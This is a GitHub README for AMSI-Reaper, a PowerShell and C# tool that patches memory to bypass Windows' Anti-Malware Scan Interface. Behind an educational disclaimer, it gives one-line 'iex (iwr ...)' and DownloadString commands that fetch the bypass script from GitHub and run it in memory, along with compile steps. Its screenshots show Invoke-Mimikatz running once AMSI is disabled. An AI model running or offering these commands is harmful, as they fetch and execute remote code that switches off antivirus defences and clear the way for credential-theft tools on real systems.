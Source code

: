 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)

## Disclaimer
- *__The AMSI-Reaper tool is designed mainly for educational and research purposes. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Overview
- AMSI-Reaper is a tool developed in both PowerShell and C# (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface [(AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) in Windows.
- AMSI is a built-in security feature in Windows that allows applications and services to integrate with antimalware products.
- By default, it provides a layer of protection against potentially malicious scripts and code executed in applications like PowerShell. 
- Check out more on the [YouTube Video](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Features
- Bypass AMSI: AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- PowerShell and C# Support: The tool is available in both [PowerShell](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [C#](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) versions, making it adaptable to different use cases.

## Usage
- *__AMSI-Reaper requires Administrator privileges to function correctly. Please run the tool as an Administrator.__*
### PowerShell Version
- __Download__
```
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### C# Version
- __Download__
```
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Images
- *Invoke-Mimikatz is detected and blocked by AMSI*
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
- *With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.*
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
- *Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with csc.*
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
